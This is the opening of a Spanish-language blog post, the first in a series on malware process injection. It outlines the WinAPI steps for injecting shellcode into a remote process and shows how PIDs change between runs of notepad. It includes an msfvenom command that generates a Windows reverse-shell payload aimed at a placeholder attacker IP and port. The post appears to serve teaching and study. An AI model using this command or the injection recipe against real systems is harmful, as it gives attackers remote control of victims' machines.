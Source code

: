```yaml
---
title: "Process Injection Parte 1: Inyección Remota Básica"
date: 19-12-2024 00:00:00 +0800
categories: [Malware, Process Injection]
tags: [malware, Process Injection]
author: 0xB3L14L
description: Primera parte de esta serie de Inyección de Proceso, donde se mostrará una simple inyección con las funciones VirtuAllocEx, WriteProcessMemory, y CreateRemoteThread del WinAPI. Siendo esto la base para las técnicas futuras.
lang: es
permalink: /posts/Shellcode_Injection
image:
  path: /Media/Images/Process-Injection-Shellcode/Remote_Process_Injection.png
---
```

La **Inyección de Proceso** es una técnica que se utiliza para inyectar un payload en la memoria de un proceso, este payload puede ser un shellcode o un DLL. Esta técnica tiene tres pasos fundamentales:

1. Asignar un espacio en la memoria (buffer).
2. Escribir el payload en el buffer.
3. Ejecutar el payload.

Estos tres pasos sirven para hacer una inyección local, y dependiendo de la subtécnica de inyección se aumentarán los pasos.

Para hacer la inyección a un proceso remoto se debe realizar los siguientes pasos:

1. Encontrar el proceso remoto. (***`CreateToolHelp32Snapshot`, `Process32First`, `Process32Next`***)
2. Conseguir un handle al proceso remoto. (***`OpenProcess`***)
3. Asignar un buffer en el proceso remoto. (***`VirtualAllocEx`***)
4. Escribir el shellcode en el buffer. (***`WriteProcessMemory`***)
5. Asignar el permiso de ejecución **"X"** al buffer. (***`VirtualProtectEx`***)
6. Ejecutar el buffer. (***`CreateRemoteThread`***)

El shellcode que se va a utilizar será generado por msfvenom
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -a x64 -f c --platform windows
```

## **Encontrar Proceso Remoto**

Para poder hacer la inyección del shellcode se necesita el PID del proceso remoto, el PID es un valor arbitrario, cada vez que un programa se ejecuta va a tener un PID distinto.

![hSnasphot](/Media/Images/Process-Injection-Shellcode/PIS-notepad-1.png)
_Primera vez que se ejecuta el notepad, tiene el PID `6716`_

![hSnasphot](/Media/Images/Process-Injection-Shellcode/PIS-notepad-2.png)
_Segunda vez que se ejecuta el notepad, ahora tiene el PID `1036`_

